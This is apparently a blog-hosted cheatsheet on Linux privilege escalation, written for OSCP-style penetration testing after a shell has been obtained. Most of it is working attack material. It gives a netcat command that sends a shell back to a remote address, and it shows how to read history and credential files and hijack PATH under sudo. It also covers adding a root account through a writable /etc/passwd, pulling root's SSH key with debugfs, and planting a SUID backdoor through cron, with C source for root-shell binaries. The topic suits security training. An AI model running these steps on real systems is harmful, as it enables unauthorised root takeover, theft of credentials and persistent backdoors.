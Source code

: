```yaml
---
title: Linux Privilege Escalation
date: 2020-06-29 16:33:08
tags: [oscp, linux, cheatsheet, privilege escalation]
---
```


# Linux Privilege Escalation Cheatsheet

So you got a shell, what *now*?
This cheatsheet will help you with local enumeration as well as escalate your privilege further

Usage of different enumeration scripts are encouraged, my favourite is [LinPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)
Another linux enumeration script I personally use is [LinEnum](https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh)
Abuse existing functionality of programs using [GTFOBins](https://gtfobins.github.io/)

*Note: This is a live document. I'll be adding more content as I learn more*

## Unstable shell
Send yourself another shell from within the unstable shell
``` bash
which nc
nc $ip $port
```

## Make it functional
Necessary for privilege escalation purposes
``` bash
which python[3]
python[3] -c 'import pty; pty.spawn("/bin/bash")'
# Ctrl+Z
# In Kali
stty -a # Notice number of rows and columns
stty raw -echo && fg
# On target system
reset
stty rows xx
stty columns yy
export TERM=xterm-256color
```
## General info
``` bash
# username, groups
id
hostname

# Part of too many groups? Find out all the files you've access to
for i in $(groups); do echo "=======$i======"; find / -group $i 2>/dev/null | grep -v "proc" >> allfiles; done

# Interesting internally listening ports?
netstat -anpt

# Look what the user was up to
less .bash_history
less mysql_history

# Check user accounts
cat /etc/passwd | grep "sh$\|python"

sudo -l
```
## Automated enumeration
``` bash
# Automated local enumeration
# Look for any highlighted stuff
# Cron jobs
# Non-standard scripts or programs
# Hardcoded credentials. Check password re-use against existing accounts
./linpeas.sh -q

./linenum.sh
```

## Abusing sudo
Can sudo but absolute path is specified? Use `ltrace` to view libraries being loaded by these programs and check if absolute path is specified or not
``` bash
# Easy win?
sudo -l # Check programs on GTFOBins

# Can sudo, abosulte path not specified?
echo "/bin/sh" > <program_name>
chmod 777 <program_name>
# Export PATH=.:$PATH
sudo <program_name>
```

## Weak file permissions
``` bash
# Writable /etc/passwd?
Remove 'x' beside a username --> no password
# Create a new user
openssl passwd "lol" # Prints out a hash
# Make a new entry at the end of /etc/passwd
notahacker:$passwd_hash:0:0:/root:/bin/bash # Become r00t yourself

# /dev/sda1 readable?
debugfs /dev/sda1 # Get root's SSH private key 
```

## Abusing CRON jobs
``` bash
# Writable CRON program?
# Insert language specific reverse shell

# Writable library?
# Back up library
# Insert language specific reverse shell at the end of the library

# Make root give you a bash SUID program
# Make getroot.sh file with following contents and wait for CRON job to run the program
#!/bin/dash
cp /bin/dash /tmp/backdoor
chown root:root /tmp/backdoor
chmod u+s /tmp/backdoor
# Execute /tmp/backdoor to get a root shell
```
Use a suid program and use as per context
getsuid.c
``` c
// BOTH WORKS
// gcc -o suid getsuid.c
// AS INTENDED USER - 
	// chown root:root suid
	// chmod 6755 suid

// immediately spawns shell upon execution 
int main() {
	setuid(0);
	system("/bin/bash -p");
}

// or better, execvp doesn't drop euid
// able to handle more things without any modifications
// run commands as root
#include <stdio.h>
#include <unistd.h>

int main(int argc, const char * argv[]){
	if (argc > 1) printf("%s",execvp(argv[1],&argv[1]));
	return 0;
}
```
## Abusing wildcards
Check out this fantastic [document](https://www.defensecode.com/public/DefenseCode_Unix_WildCards_Gone_Wild.txt) of a talk
* Abusing `chmod` 
* Abusing `chown`
* Abusing `tar`
* Abusing `rsync`

